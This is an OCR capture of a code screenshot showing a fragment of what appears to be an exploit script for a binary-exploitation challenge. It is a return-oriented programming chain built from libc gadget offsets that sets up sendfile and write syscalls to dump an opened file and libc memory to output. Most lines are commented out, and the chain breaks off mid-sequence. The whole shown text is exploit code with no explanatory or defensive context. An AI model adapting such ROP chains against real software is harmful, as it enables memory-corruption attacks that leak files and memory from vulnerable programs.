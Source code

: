                 # libc.address + 0x00000000000d2975, # syscall; ret;

​

​

                #libc.address + 0x0000000000023e6a, # pop rsi; ret;

                #3,                                 # open fd

                #libc.address + 0x00000000000439c8, # pop rax; ret;

                #40,

                #libc.address + 0x0000000000001b96, # pop rdx; ret;

                #0,

                #libc.address + 0x000000000003eb0b, # pop rcx; ret;

                #0xffff,

                #libc.address + 0x000000000002155f, # pop rdi; ret;

                #1,

                #libc.address + 0x00000000000d2975, # syscall; ret;

​

​

                #libc.address + 0x000000000002155f, # pop rdi; ret;

                #1,

                #libc.address + 0x0000000000023e6a, # pop rsi; ret;

                #libc.address,

                #libc.address + 0x0000000000001b96, # pop rdx; ret;

                #0x100,

                #libc.address + 0x00000000000439c8, # pop rax; ret;

                #1,

                #libc.address + 0x00000000000d2975, # syscall; ret;

​

                # libc.address + 0x000000000002155f, # pop rdi; ret;

                # 5,

                # libc.address + 0x0000000000023e6a, # pop rsi; ret;

